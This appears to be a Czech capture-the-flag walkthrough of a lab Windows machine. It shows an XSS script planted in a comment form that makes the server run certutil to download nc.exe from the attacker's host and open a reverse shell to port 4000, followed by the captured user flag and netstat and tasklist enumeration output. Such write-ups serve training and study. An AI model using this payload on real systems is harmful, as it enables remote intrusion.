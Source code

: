 `python -m SimpleHTTPServer 8000`

Příprava netcatu

`nc -lvp 4000`

Odeslání formuláře s následujícím komentářem (IP.AD.RE.SA nahradit vlastní IP) a počkat
Skript stáhne nc.exe a otevře reverzní shell
```js
<script>
	function mycallSys(cmd){
		var http=new XMLHttpRequest();
		var params='cmd='+cmd;
		http.open('POST','backdoorchecker.php',true);
		http.setRequestHeader('Content-type','application/x-www-form-urlencoded');
		http.withCredentials = true;
		http.send(params);
	};
	mycallSys('dir|certutil.exe -urlcache -split -f http://10.10.14.11:8000/nc.exe c:\\windows\\temp\\nc.exe | c:\\windows\\temp\\nc.exe 10.10.14.11 4000 -e cmd');
</script>
```

### Zobrazení obsahu souboru user.txt
```
C:\Users\Cortin\Desktop>more user.txt
more user.txt
__CENSORED__
```

### Výpis naslouchajících služeb
```
netstat -ano | findstr LISTEN
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       1992
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       740
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       1992
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:910            0.0.0.0:0              LISTENING       1456
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       2556
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       460
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       904
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       876
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1332
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       576
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       588
  TCP    10.10.10.154:139       0.0.0.0:0              LISTENING       4
  TCP    [::]:80                [::]:0                 LISTENING       1992
  TCP    [::]:135               [::]:0                 LISTENING       740
  TCP    [::]:443               [::]:0                 LISTENING       1992
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3306              [::]:0                 LISTENING       2556
  TCP    [::]:49664             [::]:0                 LISTENING       460
  TCP    [::]:49665             [::]:0                 LISTENING       904
  TCP    [::]:49666             [::]:0                 LISTENING       876
  TCP    [::]:49667             [::]:0                 LISTENING       1332
  TCP    [::]:49668             [::]:0                 LISTENING       576
  TCP    [::]:49669             [::]:0                 LISTENING       588
```
Port 910 není běžný, vyžaduje větší pozornost...
`tasklist`
```
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
...
bankv2.exe                    1456                            0         96 K
...
```